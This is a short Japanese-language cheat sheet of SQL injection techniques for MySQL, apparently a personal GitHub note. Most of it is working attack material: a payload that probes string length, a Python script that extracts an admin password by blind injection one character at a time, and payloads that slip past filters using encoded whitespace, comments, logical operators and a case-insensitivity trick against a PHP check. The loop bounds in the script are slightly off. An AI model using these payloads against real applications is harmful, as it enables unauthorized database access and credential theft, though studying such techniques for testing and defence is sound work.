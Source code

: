 # SQL Injection my cheet sheet

## Mysql

### 文字列の長さを調べる

```
?id=' and length(str)=8 -- -
```

これでログインが成功したときのページ繊維などが起きれば文字列の長さが8文字とわかる

### bind SQL Injection

`id`と`pass`というparamが存在し、passを求める場合

例

```python
import requests
url = ''
str_length = 1 # 取得する文字列の長さ
for index in range(1, str_length):
    for char_number in range(48, 123):
        char = chr(char_number)
        sql = 'admin\' AND SUBSTR((SELECT pass FROM user WHERE id = \'admin\'), {index}, 1) = \'{char}\' --'.format(index = index, char = char)
        payload = {
            'id' : sql,
            'pass' : ''
        }
        response = requests.post(url, data=payload)
        if len(response.text) > 2000: # 成功時にresponseの長さが変わる場合に有効
        # if len(response.txt).find('成功時に表示される文字列') != -1:
            print(char, end="")
            break
print()
```

### escape回避

* CR(Carriage Return) `%0d`で空白を挿入できる

```
?id='%0dor%0d'1'='1'--
```
> ?id=' or '1'='1'--

* LF(Line Feed) `%0a`で空白を挿入できる

```
?id='%0aor%0a'1'='1' #
```

> ?id=' or '1'='1'--

* Tab `0x09`でtabを挿入できる

```
?id='%09or%09'1'='1' #
```

> ?id=' or  '1'='1'--

* comment `/**/`でコメントを挿入すると空白なしで通る

```
?id='/**/or/**/'1'='1' #
```

> ?id='/* * /or/ * */'1'='1'--

* 論理演算子`||`, `&&`

```
?id=' || '1'='1' #
?id=' || '1'='1' && id = 'admin' #
```

* 文字列match

Mysqlでは大文字と小文字を区別しないのでBackEnd側で文字列が含まれていないかを検査していても回避することができる。

```php
# BackEnd
<?php
if(@ereg("admin",$_GET[id])) echo "error";
?>

# query
?id=ADMIN
```
